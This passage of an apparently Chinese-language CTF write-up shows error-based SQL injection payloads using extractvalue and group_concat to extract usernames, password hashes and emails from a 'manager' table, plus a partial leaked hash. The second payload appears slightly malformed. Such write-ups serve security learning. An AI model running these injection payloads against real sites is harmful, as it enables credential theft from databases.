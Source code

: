 - 查用户名密码

  ```bash
  ' and extractvalue(1,concat(0x5c,(select group_concat(username,'|',password,'|',email) from manager))) -- 
  ```

  ![ctf-20180416220736390](/images/posts/ctf/ctf-20180416220736390.png)

  得到`username|password`：`ichuqiu|318a61264482e503090facf`

  明显密码显示不全，达不到MD5加密后的32位

- 继续构造查询密码后几位

  ```bash
  ' and extractvalue(1,concat(0x5c,mid(select group_concat(username,'|',password,'|',email) from manager), 20, 54)) -- 
  ```

  ![ctf-20180416222026878](/images/posts/ctf/ctf-20180416222026878.png)
